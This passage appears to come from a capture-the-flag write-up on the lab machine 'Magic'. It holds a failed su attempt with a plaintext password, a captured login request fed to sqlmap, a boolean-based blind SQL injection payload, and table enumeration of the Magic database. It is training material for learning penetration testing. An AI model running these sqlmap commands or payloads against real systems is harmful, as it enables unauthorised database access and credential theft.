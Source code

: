 ```bash
theseus@ubuntu:/var/www/Magic$ su theseus
Password: iamkingtheseus
su: Authentication failure
```
Seems like the password is not correct. Let us enumerate a bit more.

### Getting passwords from MySQL using SQL-Injection
With the SQL-Injection still in mind, we can try to use sqlmap to leak further information from the database.

Capturing the login request and saving it to a file, in order to ease the use of sqlmap.
```bash
root@silence:~# cat login.req
POST /login.php HTTP/1.1
Host: 10.10.10.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.185/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Connection: close
Upgrade-Insecure-Requests: 1

username=*&password=*
```
Now we can use the request with SQLMap.
```bash
root@silence:~# sqlmap -r login.req --risk 3 --level 5

[19:51:08] [INFO] (custom) POST parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' inject
able (with --code=302)
[19:51:10] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'

sqlmap identified the following injection point(s) with a total of 612 HTTP(s) requests:

Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-1771' OR 1469=1469-- rRkM&password=

```
Now with the SQL injection confirmed, we should further enumerate the database.

```bash
root@silence:~# sqlmap -r login.req --risk 3 --level 5 –tables
Database: Magic
[1 table]
+---------------------------------------+
| login                                 |
+---------------------------------------+
```
The login table in the Magic database seems the most interesting. Let us dump this table and see if we can get any new passwords.
